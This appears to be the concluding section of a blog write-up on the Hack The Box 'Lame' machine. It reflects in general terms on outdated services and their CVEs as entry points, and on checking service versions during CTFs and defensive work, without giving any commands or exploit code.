Many organizations or individuals do not focus on the versions of service that they are utilizing. For most of the hacks, it is the outdated service that is breached and gave access to system or data. It is really important as a cybersecurity professional to look for outdated ports and services within a company and find a way to mitigate potential or actual vulnerabilities within them. As a red teamer, while participating into any CTFs or Challenges, it is important to look closely on the versions of services, because open services are an entry-gateway inside the system and if they are running an older version then there can be chances that they can get exploited.

The lame HTB machine demonstrates a good way of finding vulnerabilities and exploits for outdated services and gives a guide on how to practically perform them. There are many ways to exploit the lame machine, because there was one port that I missed during my scan but it will be posted soon if I ever hack lame again with those different techniques. Overall, Lame HTB is all about outdated services and their CVEs.